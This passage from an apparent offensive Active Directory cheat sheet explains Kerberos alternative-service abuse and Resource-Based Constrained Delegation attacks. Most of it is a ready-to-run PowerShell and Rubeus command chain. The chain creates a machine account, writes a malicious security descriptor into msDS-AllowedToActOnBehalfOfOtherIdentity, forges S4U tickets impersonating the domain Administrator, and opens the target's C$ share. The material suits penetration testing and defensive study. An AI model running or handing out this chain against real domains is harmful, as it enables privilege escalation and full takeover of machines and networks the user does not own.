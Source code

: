 :triangular_flag_on_post: **What if we have delegation rights for only a spesific SPN? (e.g TIME):**

In this case we can still abuse a feature of kerberos called "alternative service". This allows us to request TGS tickets for other "alternative" services and not only for the one we have rights for. Thats gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

### Resource Based Constrained Delegation

*WUT IS DIS?: \
TL;DR \
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate Domain Administrator and have complete access.*

Tools we are going to use:
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
- [Powermad](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus](https://github.com/GhostPack/Rubeus)

First we need to enter the security context of the user/machine account that has the privileges over the object.
If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:
```
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```
Detailed Articles:
 - [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
 - [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)
 
